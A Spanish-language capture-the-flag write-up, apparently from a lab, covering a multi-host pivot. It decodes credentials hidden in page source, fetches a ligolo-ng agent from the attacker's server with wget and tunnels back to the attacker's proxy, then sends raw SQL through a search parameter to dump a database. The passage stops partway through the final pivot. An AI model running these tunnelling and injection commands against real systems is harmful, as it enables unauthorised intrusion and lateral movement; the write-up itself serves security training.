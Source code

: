 Desplegamos el entorno:
![[Pasted image 20240918080245.png]]
Hacemos el escaneo de nmap a la primera máquina, donde tiene abiertos los puertos 80 y 22:

Esta es la web que corre por el puerto 80:
![[Pasted image 20240918080407.png]]
Y en el código fuente, encontramos un hash:
![[Pasted image 20240918080434.png]]
Tratamos de decodearlo usando **base64** pero no tenemos resultado. Usando [cyberchef](https://cyberchef.io/) vemos que esta encodeado primero usando **base32** y luego en **base64** para darnos un resultado en **hexadecimal**. Usamos `xxd -r -p` para pasar de hexadecimal a texto simple:
```bash
$ echo 'JZKECZ2NPJAWOTT2JVTU42SVM5HGU23HJZVFCZ22NJGWOTTNKVTU26SJM5GXUQLHJV5ESZ2NPJEWOTLKIU6Q====' | base32 --decode | base64 --decode | xxd -r -p
```
![[Pasted image 20240918080702.png]]
O también podríamos usar el siguiente script de python:
```python
import base64

# Paso 1: Recibir la cadena Base32 desde el input del usuario
data = input("Introduce la cadena en base32: ")

try:
    # Paso 2: Decodificar Base32
    base32_decoded = base64.b32decode(data)

    # Paso 3: Decodificar Base64
    base64_decoded = base64.b64decode(base32_decoded)

    # Paso 4: Interpretar el contenido como texto hexadecimal en UTF-8
    hexadecimal = base64_decoded.decode('utf-8')  # Decodificar directamente como texto
    print(f"El texto en hexadecimal es: {hexadecimal}")

    # Separar el texto hexadecimal en valores
    hex_values = hexadecimal.split()

    # Convertir cada valor hexadecimal a su carácter ASCII
    text = ''.join([chr(int(value, 16)) for value in hex_values])

    # Mostrar el resultado
    print(f"El texto final es: {text}")

except:
    print("Hubo un error.")
```
![[Pasted image 20240918082058.png]]
Vemos la contraseña para el usuario derbero:
```bash
cerbero:P0seidón2022!
```
![[Pasted image 20240918082212.png]]
Una vez dentro, vamos a usar ligolo para acceder al siguiente equipo:
![[Pasted image 20240918082249.png]]
```bash
https://github.com/Nicocha30/ligolo-ng
```
![[Pasted image 20240918082257.png]]
Nos bajamos el repositorio:
```bash
git clone https://github.com/nicocha30/ligolo-ng.git
```
Y ahora para ejecutar el proxy debemos tener go instalado:
```bash
sudo apt install golang
```
Y una vez dentro compilamos el agente y el proxy:
```bash
go build -o ligolo-client ./cmd/agent/
go build -o ligolo-proxy ./cmd/proxy/
```
![[Pasted image 20240918084429.png]]
![[Pasted image 20240918084440.png]]
Y lo compartimos con la máquina:
```bash
wget http://10.10.10.1:5000/ligolo-client
chmod +x ligolo-client | xargs ls -l
```
![[Pasted image 20240918084702.png]]
Y ahora para instalar todas las dependencias ejecutamos lo siguiente:
```bash
go mod tidy
```
![[Pasted image 20240918084542.png]]
Y ahora ya tendremos compilado el agente y proxy:
![[Pasted image 20240918084616.png]]
Ahora desde la máquina atacante ejecutamos el ligolo-proxy:
```bash
sudo ./ligolo-proxy -selfcert
```
![[Pasted image 20240918084806.png]]
Y ahora desde la máquina víctima ejecutamos el cliente para conectarnos con el servidor:
```bash
./ligolo-client -connect 10.10.10.1:11601 -ignore-cert
```
![[Pasted image 20240918084908.png]]
Vemos que se ha establecido la conexión. En el proxy seleccionamos la sesión recien creada con `session`. Una vez elegida ejecutamos `autoroute`. Elegimos la red a la que queremos pivotar, le indicamos que nos cree una interfaz nueva y que inicie el tunel:
```bash
session
autoroute
20.20.20.2/24
```
![[Pasted image 20240918085306.png]]
Y en este punto ya tenemos acceso a la siguiente máquina:
![[Pasted image 20240918085330.png]]
Donde veremos que tiene también abiertos los puertos 80 y 22:
![[Pasted image 20240918085910.png]]
![[Pasted image 20240918085545.png]]
En esta ocasión tampoco encontramos nada relevante, pero si hacemos clic en el botón de buscar, nos encuentra el directorio oraculo.html:
![[Pasted image 20240918085627.png]]
Y si hacemos fuzzing web, encontramos el fichero **database.php** que vemos como hace la consulta a la BBDD:
```bash
gobuster dir -u 'http://20.20.20.3' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
```
![[Pasted image 20240918085847.png]]
Este es el contenido de oraculo.html:
![[Pasted image 20240918085734.png]]
```bash
curl -vvvv http://20.20.20.3/buscador/oraculo.html
form.addEventListener('submit', (e) => {
  e.preventDefault();
  const buscar = input.value.trim();
  if (buscar !== '') {
    fetch('../database.php', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
      },
      body: `buscar=${encodeURIComponent(buscar)}`,
    })
      .then((response) => response.text())
      .then((data) => {
        resultado.innerHTML = data;
      })
      .catch((error) => console.error(error));
  }
```
Vamos a hacer la siguiente consulta teniendo en cuenta que se utiliza el parámetro buscar:
```bash
curl --data 'buscar=select name from sqlite_master' http://20.20.20.3/database.php
```
![[Pasted image 20240918090822.png]]
Y vamos a seleccionar todo de la tabla atlantis:
```bash
curl --data 'buscar=select * from atlantis' http://20.20.20.3/database.php
```
![[Pasted image 20240918090936.png]]
Y ahora usaremos el script de python para convertir la contraseña del usuario megalodon de base32 a texto normal:
```bash
megalodon:Templ02019!
```
![[Pasted image 20240918091134.png]]
Y entramos por ssh:
![[Pasted image 20240918091206.png]]
Ahora subimos por scp a esta máquina el agente de ligolo:
```bash
scp ligolo-client megalodon@20.20.20.3:/home/megalodon
```
![[Pasted image 20240918091758.png]]
Y ya lo tenemos en la máquina víctima intermedia:
![[Pasted image 20240918091828.png]]
Esta vez en vez de conectar el agente al proxy vamos a hacer en el sentido contrario. Poner a la escucha el agente y conectarnos desde el proxy. Ponemo el agente a la escucha con el argumento `bind` y la `IP` y el `puerto` donde estará a la escucha:
```bash
./agent -bind 0.0.0.0:7777
connect_agent --ip 20.20.20.3:7777
```
Ahora desde el proxy nos conectamos a Poseidon y elegimos la nueva sesión:
![[Pasted image 20240918092931.png]]
![[Pasted image 20240918093030.png]]
Volvemos al proxy y hacemos otro **autoroute** a la última red, le decimos que nos cree una interfaz nueva y que abra el túnel:
